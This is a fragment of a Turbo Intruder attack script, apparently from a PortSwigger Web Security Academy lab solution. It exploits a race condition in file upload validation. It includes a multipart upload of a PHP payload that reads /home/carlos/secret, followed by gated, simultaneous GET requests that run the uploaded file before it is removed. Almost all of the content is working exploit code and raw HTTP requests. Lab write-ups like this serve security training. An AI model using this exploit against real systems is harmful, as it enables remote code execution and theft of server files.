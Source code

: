 ```
Sec-Fetch-Dest: document
Referer: https://ac8e1f411f99a135c07c3061008f00f7.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary5JBEpKkudjtX2Vh3
Content-Disposition: form-data; name="avatar"; filename="data.php"
Content-Type: application/x-php

<?php echo file_get_contents("/home/carlos/secret"); ?>
------WebKitFormBoundary5JBEpKkudjtX2Vh3
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary5JBEpKkudjtX2Vh3
Content-Disposition: form-data; name="csrf"

mpqL0zzPJ6dA6Sv1CVPgBlSNq60CJASq
------WebKitFormBoundary5JBEpKkudjtX2Vh3--


'''

    request2 = '''GET /files/avatars/data.php HTTP/1.1
Host: ac8e1f411f99a135c07c3061008f00f7.web-security-academy.net
Cookie: session=exFApur1ws5zUINovUJPBtrMuo6wyhZh
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)
```

Attack -> The answer is in the HTTP 200 response.
